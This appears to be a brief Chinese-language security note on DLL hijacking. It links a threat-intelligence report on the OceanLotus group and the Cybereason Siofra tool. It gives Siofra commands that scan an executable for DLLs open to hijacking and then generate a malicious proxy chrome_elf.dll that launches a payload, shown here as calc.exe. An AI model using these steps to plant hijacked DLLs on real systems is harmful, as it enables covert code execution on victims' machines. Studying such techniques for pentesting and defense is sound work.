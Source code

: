 ### 简介

DLL Hijacking

[【微步在线报告】“海莲花”攻击 - 白利用 0检出](https://m.threatbook.cn/detail/1397?from=groupmessage&isappinstalled=0)

### 测试

[Cybereason/siofra](https://github.com/Cybereason/siofra)

```
# 文件扫描模式 对父程序xx.exe进行扫描 枚举它所依赖的dll文件 并检测能否DLL Hijacking
Siofra32.exe --mode file-scan -f "c:\Program Files\xxx\xx.exe" --enum-dependency --dll-hijack
# 如结果
# [!] Module chrome_elf.dll vulnerable at C:\ProgramData\xxx\chrome_elf.dll (real path: Unknown)

# Exploit - 生成存在恶意代码chrome_elf.dll 从而实现dll劫持
Siofra32.exe --mode infect -f chrome_elf(real).dll -o chrome_elf.dll --payload-type process --payload-path C:\Windows\System32\calc.exe
```
